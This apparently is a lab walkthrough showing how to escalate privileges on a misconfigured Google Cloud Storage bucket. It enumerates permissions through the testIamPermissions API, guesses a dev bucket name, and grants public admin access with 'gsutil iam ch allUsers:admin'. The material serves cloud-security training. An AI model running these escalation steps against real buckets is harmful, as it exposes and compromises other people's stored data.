 # Objective

We will try to use the misconfigured bucket policies to get admin access on one of the buckets.

# Solution

**Step 1:** Open any of the blogs from the home page.

![](https://user-images.githubusercontent.com/54552051/204803763-0a423523-f7a9-429c-bc74-2bed9d44515b.png)

**Step 2:** Open the image of the blog in the new tab by right-clicking on it and following the same.

![](https://user-images.githubusercontent.com/54552051/204803768-7492553d-80f5-42d7-bea9-df0f5af2fe1c.png)

**Step 3:** Here you find that the image is being fetched from a google storage bucket.

![](https://user-images.githubusercontent.com/54552051/204803771-ddad9684-d6ee-46c0-90b2-ddf262ceb5ce.png)

You can find the name of the bucket as highlighted in the above image, after the *storage.googleapis.com*. Take note of this name.

**Step 4:** Fetch the bucket contents by using the below URL

```
https://storage.googleapis.com/<BUCKET NAME>
```

**Note:** Replace the ``<BUCKET NAME>`` with your current bucket name.

![](https://user-images.githubusercontent.com/54552051/204803773-730a08ef-ee34-4af3-92c5-eef0aa06687e.png)

The access will be denied onto the bucket to list out all the content.

**Step 5:** Use the below URL to find out all the permissions you have on this bucket.

```
https://www.googleapis.com/storage/v1/b/BUCKET_NAME/iam/testPermissions?permissions=storage.buckets.delete&permissions=storage.buckets.get&permissions=storage.buckets.getIamPolicy&permissions=storage.buckets.setIamPolicy&permissions=storage.buckets.update&permissions=storage.objects.create&permissions=storage.objects.delete&permissions=storage.objects.get&permissions=storage.objects.list&permissions=storage.objects.update
```

**Note:** replace BUCKET_NAME with your current bucket name.

The Google Storage TestIamPermissionsAPI allows us to supply a bucket name and list of Google Storage permissions, and it will respond with the permissions we have on that bucket. This completely bypasses the requirement of viewing the bucket policy and could potentially even give us better information (in the case of a custom role being used).

![](https://user-images.githubusercontent.com/54552051/205140535-cadccbfe-7e3f-49f2-b64f-034f150d187d.png)

This bucket only has read access which is "storage.buckets.get". But the bucket name is starting from **prod** so there can be a dev bucket also.

**Step 6:** Try to access all the contents of the dev bucket by simply replacing the **prod** with **dev**.

```
https://storage.googleapis.com/<DEV BUCKET NAME>
```

![](https://user-images.githubusercontent.com/54552051/204803779-497a59d7-80b1-4632-9582-f1407f951684.png)

Here also we got the access denied same as the prod bucket. But this confirms that there is a dev bucket.

**Step 7:** List out all the permissions we have on the dev bucket.

```
https://www.googleapis.com/storage/v1/b/BUCKET_NAME/iam/testPermissions?permissions=storage.buckets.delete&permissions=storage.buckets.get&permissions=storage.buckets.getIamPolicy&permissions=storage.buckets.setIamPolicy&permissions=storage.buckets.update&permissions=storage.objects.create&permissions=storage.objects.delete&permissions=storage.objects.get&permissions=storage.objects.list&permissions=storage.objects.update
```

Note: replace BUCKET_NAME with your dev bucket name.

![](https://user-images.githubusercontent.com/54552051/204803781-38285e67-bf79-4691-ab06-51eedd36bb54.png)

Here we have two more interesting permission along with the get permissions.

* storage.buckets.setIamPolicy - This grants permission to set IAM policies in the bucket.
* storage.buckets.getIamPolicy - This grants permission to read IAM policies in the bucket.

**Step 8:** list IAM roles attached to this bucket with the gsutil tool.

gsutil is a Python application that lets you access Cloud Storage from the command line. You can use gsutil to do a wide range of bucket and object management tasks.

Use the following command to list all IAM permissions and roles attached to this bucket.

```
gsutil iam get gs://<BUCKET NAME>
```

![](https://user-images.githubusercontent.com/54552051/205140775-2c54603e-3d3f-46da-960d-74e0a1d0cdf2.png)

Here allUsers which is for anonymous user has a custom role attached to them. Which had those 3 permissions we saw in the previous step.

**Step 9:** Add an admin role for allUsers using the following command such that we can do all the operations in the bucket.

```
gsutil iam ch allUsers:admin gs://<BUCKET NAME>
```

![](https://user-images.githubusercontent.com/54552051/205140776-822b1a81-029b-40d0-82a0-93a8079da37a.png)

**Step 10:** Again list the IAM roles attached to the bucket to confirm that admin roles are added to it using the gsutil tool.

```
gsutil iam get gs://<BUCKET NAME>
```

![](https://user-images.githubusercontent.com/54552051/205140777-64b74db0-ac2f-4d72-8ae2-84380bf8fb7c.png)

Successfully added an admin role for all users.

**Step 11:** List out all the permissions onto this bucket with the below URL.

```
https://www.googleapis.com/storage/v1/b/BUCKET_NAME/iam/testPermissions?permissions=storage.buckets.delete&permissions=storage.buckets.get&permissions=storage.buckets.getIamPolicy&permissions=storage.buckets.setIamPolicy&permissions=storage.buckets.update&permissions=storage.objects.create&permissions=storage.objects.delete&permissions=storage.objects.get&permissions=storage.objects.list&permissions=storage.objects.update
```

Note: replace ``<BUCKET_NAME>`` with your dev bucket name.

![](https://user-images.githubusercontent.com/54552051/205140767-53c1574c-8ffe-49c8-8e3c-dd6572826b0e.png)

You can see now we have all kinds of access to this bucket.

**Step 12:** List out all the content inside the bucket to verify the same.

```
https://storage.googleapis.com/<DEV BUCKET NAME>
```

![](https://user-images.githubusercontent.com/54552051/204803801-bfa0ab6c-402b-4321-8342-71bd893941b0.png)

The content of the bucket is listing out. This means you have successfully elevated your privileges onto this bucket.